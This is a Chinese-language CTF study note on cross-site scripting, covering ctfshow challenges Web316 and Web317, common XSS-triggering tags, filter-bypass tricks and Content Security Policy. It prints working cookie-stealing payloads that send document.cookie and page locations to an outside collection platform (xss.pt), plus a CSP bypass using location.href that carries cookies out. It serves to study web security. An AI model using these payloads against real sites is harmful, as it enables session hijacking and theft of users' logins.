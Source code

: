 ```yaml
---
author: "Yiming Shen"
date: 2022-02-26
lastmod: 2022-03-05
title: "XSS类型题目积累及资料"
tags: [
    "CTF",
    "XSS",
    "Web",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
showtoc: true
math: true
typora-root-url: ..\..\..\..\static\
---
```


> 跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 WEB 应用程序中的计算机安全漏洞，是由于 WEB 应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

## 反射型XSS

> 反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。

### 无过滤反射型 

#### Web316 - [XSS平台](https://xss.pt)

![image-20220226192829187](/xss.assets/%7D/image-20220226192829187.png)

抓包后cookie提示flag在此，但需要管理员身份。

即生成链接诱骗管理员（本题为BOT）点击获取其cookie。

**借助XSS平台**
平台上放置脚本（可自行搭建）

```php
(function(){(new Image()).src='https://xss.pt/xss.php?do=api&id=Sh8s&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if(''==1){keep=new Image();keep.src='https://xss.pt/xss.php?do=keepsession&id=Sh8s&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
```

[Xss平台](https://xss.pt) 注册登录后创建项目，将其提供的xss代码（引导访问其链接从而存储信息）填入框中，即可获得管理员访问cookie。

![image-20220226201645270](/xss.assets/%7D/image-20220226201645270.png)

### 过滤反射型

#### Web317 - \<onload\>

```html
<BODY ONLOAD=document.location='https://xss.pt/Sh8sp.jpg?cookie='+document.cookie;></body>
```

> **window.onload()** 方法用于在网页加载完毕后立刻执行的操作，即当 HTML 文档加载完毕后，立刻执行某个方法。

#### 空格过滤

换成`/**/`


## 常见执行`XSS`的标签

```html
<script src="*.js"></script>

<script>alert(1)</script>

<img src="s" onerror=alert('xss')></img>

<link rel="import" href="*.html">

<iframe src="javascript:alert(1)"></iframe> <!-JavaScript伪协议->

<a href="javascript:alert(1)">click</a>

<svg/onload=alert(1)>

<h1 onmousemove="alert('moved!')">Title1</h1>
    
<iframe src = "data:text/html;base64,_base64codehere="></iframe> <!-Data伪协议->
```

## XSS过滤和绕过

> XSS主要在**代码层**和**WAF层**实现过滤

### 编码过滤

1. 对payload进行HTML实体编码过滤

   `alert(1)`编码成`&#x61 &#x6c...`

   payload在标签属性中触发事件前，浏览器已经对payload进行了一次解码，即从实体编码转换成了常规数据。

2. 通过闭合JS语句逃逸payload

   `var url = 'http://xss.com/?name=<?=$name?>'+'<?=$address?>';`

   可转义第一个引号使其和第二个参数的引号闭合 在第二个参数内插入payload

### CSP过滤

> **C**ontent **S**ecurity **P**olicy，内容安全策略。是一个额外的安全层，用于检测并削弱特定类型的攻击。

设置CSP策略后，将通过指定有效域——即浏览器认可的可执行脚本的有效来源——使服务器管理者有能力减少或消除XSS攻击所依赖的载体。

#### CSP如何工作

1. 通过响应包头实现

   ```htaccess
   Content-Security-policy: default-src 'self'; script-src 'self' allowed.com; img-src 'self' allowed.com; style-src 'self';
   ```

2. 通过HTML元标签实现

   ```html
   <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
   ```

 [CSP Evaluator](https://link.segmentfault.com/?enc=S%2FuAV9xAPsV9LSRQyBP9WA%3D%3D.z2rAfMwDRlsYWhHjRMfZa%2F6a9gM73YZ4DQ0TstGCamu2MU5csmlZ9ECOzmNxSYHN)

#### 绕过方法

> `location.href`绕过

CSP不影响location.href跳转，因为在大多数网站中的跳转功能都是靠前端实现的，如果限制跳转将会使网站很大一部分功能受到影响，所以利用跳转来绕过CSP是一个万能的方法:

```html
<script>location.href="http://127.0.0.1"+document.cookie;</script>
```



## 参考

[1] [XSS平台的使用](http://zhuabapa.top/2019/12/25/XSS%E5%B9%B3%E5%8F%B0%E4%BD%BF%E7%94%A8/)

[2] [从0到1:CTFer成长之路](#xss)

[3] [合天网安实验室-CSP浅析与绕过](https://segmentfault.com/a/1190000039996161)